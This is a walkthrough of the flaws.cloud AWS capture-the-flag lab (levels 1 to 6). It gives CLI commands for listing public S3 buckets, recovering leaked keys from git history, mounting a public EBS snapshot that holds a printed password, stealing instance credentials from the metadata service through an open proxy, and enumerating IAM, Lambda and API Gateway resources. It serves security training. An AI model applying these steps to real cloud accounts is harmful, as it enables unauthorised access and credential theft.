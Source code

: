 # [flaws.cloud](http://flaws.cloud)

## Level 1
> [URL](http://flaws.cloud)

**Flaw: Everyone had the `list` permissions for the bucket**

* List the bucket contents for `flaws.cloud`
	* `aws s3 ls s3://flaws.cloud --no-sign-request`
* Get the `html` file
	* `aws s3 cp s3://flaws.cloud/secret-dd02c7c.html . --no-sign-request`


## Level 2
> [URL](http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/)

**Flaw: Any authenticated AWS user could list the bucket contents**

* List the bucket contents for the url using AWS account
	* `aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --profile harshjolad`  
* Get the secret html file
	* `aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html . --profile harshjolad`


## Level 3
> [URL](http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/)

**Flaw: Bucket listing permissions for everyone and leaked access keys in git commits**
* List the bucket contents for the url using AWS profile
	* `aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --profile harshjolad`
* Download the  `.git` folder
	* `aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git l3-dump  --profile harshjolad`
* Check the git logs
	* `git log`
* Check the first commit
	* `git checkout {commit hash}`
* Check the commit contents
	* `git show`
* Create a profile using the credentials
	* `aws configure --profile flaws-l3`
	* Enter `AKIA` and `Secret access Key`
* List all the buckets for the newly created profile
	* `aws s3 ls --profile flaws-l3`

## Level 4
> [URL](http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/)
> [ec2 url](http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud)

**Flaw: Snapshot of EC2 instance made public**

* Use `nslookup` and get the region of the snapshot
	* `nslookup 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud`
	* Region: `us-west-2`
* Using the flaws-l3 profile look for ec2 snapshots
	* `aws ec2 describe-snapshots --profile flaws-l3`
* Get account id for the flaws-l3 keys
	* `aws --profile flaws sts get-caller-identity`
* List the ec2 snapshots for the particular owner
	* `aws ec2 describe-snapshots --profile flaws-l3 --owner-id {owner-id} --region us-west-2`
* Mount the volume using the `snapshot id` to your acc
	* `aws --profile {YOUR_ACCOUNT} ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id snap-0b49342abd1bdcb89`
* Create an ec2 instance in the `us-west-2` region 
*  Attach the snapshot as an extra volume
*  Connect to the ec2 instance using `ssh` with the keypair while setting up the ec2
	*  `ssh -i "flaws4.pem" ubuntu@ec2-35-85-61-84.us-west-2.compute.amazonaws.com`
* Mount the volume
	* `sudo file -s /dev/xvdf1`
	* `sudo mount /dev/xvdf1 /mnt`
* Look around in the snapshot
	* We get credentials in `/home/ubuntu/setupNginx.sh`
		* `flaws:nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M`
* Enter the credentials [here](http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud)
* Terminate the EC2 instance

## Level 5
> [URL](http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/)

**Flaw: exposed proxy which doesn't restrict access to instance's meta-data server and private IP range**
* The IP address `169.254.169.254` is a **magic IP** in the cloud world. AWS, Azure, Google, DigitalOcean and others use this to allow cloud resources to find out metadata about themselves.
* Each EC2 instance has metadata available on a magic private (only itself can access) IP address `169.254.169.254`. The juiciest part of this metadata, are the credentials for the Instance Profile (if one is set), which can be retrieved through a web request to http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance/.
* Get the meta-data listing
	* `curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/`
* We get credentials at this [url](http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance) 
	* `curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance`
* Configure using the keys
	* `aws configure --profile flaws-l5`
* Add the Access Key ID, Secret Access key and **Session token** to `/.aws/credentials`
* List the contents of the level6 bucket
	* `aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud --profile flaws-l5`


## Level 6
> [URL](http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/)

**Flaw: Extra permissions given to policies **

* Create a profile using the provided credentials
	* `aws configure --profile flaws-l6`
* Get other info about the profile 
	* `aws --profile flaws-l6 iam get-user`
* List the IAM policies attached to the user 
	* `aws --profile flaws-l6 iam list-attached-user-policies --user-name Level6`
* Get more info on the policy `list_apigateways`
	* `aws --profile flaws-l6 iam get-policy --policy-arn arn:aws:iam::975426262029:policy/list_apigateways`
* Get the version of the policy
	* `aws --profile flaws-l6 iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4`
* The policy tells us we can `GET` on the resource `arn:aws:apigateway:us-west-2::/restapis/*`
* Enumerating the other policy `MySecurityAudit`, it lets us see some things about lambdas.
* List the lambda functions
	* `aws --profile flaws-l6 --region us-west-2 lambda list-functions`
* Get policy for the function 
	* `aws --profile flaws-l6 --region us-west-2 lambda get-policy --function-name Level6`
* Use the API ID: `s33ppypa75` and get the stage
	* `aws --profile flaws-l6 --region us-west-2 apigateway get-stages --rest-api-id s33ppypa75`
	
* That tells you the stage name is "**Prod**". Lambda functions are called using that rest-api-id, stage name, region, and resource as 
	* `https://<API-id>.execute-api.<region>.amazonaws.com/<stage-name>/<resource>`

	* https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6

